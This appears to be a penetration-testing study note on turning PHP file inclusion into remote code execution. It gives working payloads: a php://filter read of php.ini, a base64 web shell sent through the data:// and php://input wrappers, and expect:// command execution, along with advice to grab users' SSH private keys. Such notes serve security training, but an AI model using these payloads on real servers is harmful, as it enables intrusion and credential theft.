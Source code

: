 ```yaml
---
layout: default
title: File Inclusion
permalink: /Web/RCE/
---
```


# Remote Code Execution
One easy and common method for gaining control over the back-end server is by enumerating user credentials and SSH keys, and then use those to login to the back-end server through SSH or any other remote session.
- We may find the database password in a file like `config.php`, which may match a user's password in case they re-use the same password.
- We can check the `.ssh` directory in each user's home directory, and if the read privileges are not set properly, then we may be able to grab their private key `id_rsa` and use it to SSH into the system.
- There are ways to achieve remote code execution directly through vulnerable functions.

## Data Wrapper
However, the data wrapper is only available to use if the (allow_url_include) setting is enabled in the PHP configurations. 
<b>Checking:
We can include the PHP configuration file found at (/etc/php/X.Y/apache2/php.ini) for Apache or at (/etc/php/X.Y/fpm/php.ini) for Nginx, where X.Y is your install PHP version.

```
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
```
Then:
```
echo '<base64_encoded_string>' | base64 -d | grep allow_url_include
```
Remote Code Execution:
```
echo '<?php system($_GET["cmd"]); ?>' | base64
```
Then in the url bar:
```
http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,<base64_encoded_command>
```
Or use curl:
```
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```
## Input Wrapper
- We pass our input to the input wrapper as a POST request's data. So, the vulnerable parameter must accept POST requests for this attack to work.
- The input wrapper also depends on the `allow_url_include` setting, as mentioned previously.
```
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```
*Note: To pass our command as a GET request, we need the vulnerable function to also accept GET request (i.e. use $_REQUEST). If it only accepts POST requests, then we can put our command directly in our PHP code, instead of a dynamic web shell (e.g. <\?php system('id')?>)*

## Expect Wrapper
Expect is an external wrapper, so it needs to be manually installed and enabled on the back-end server.
<b>Checking is similar as previously:
```
echo '<base64_encoded_string>' | base64 -d | grep expect
```
We may find that a configuraion keyword is used to enable the except module. Then:
```
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```
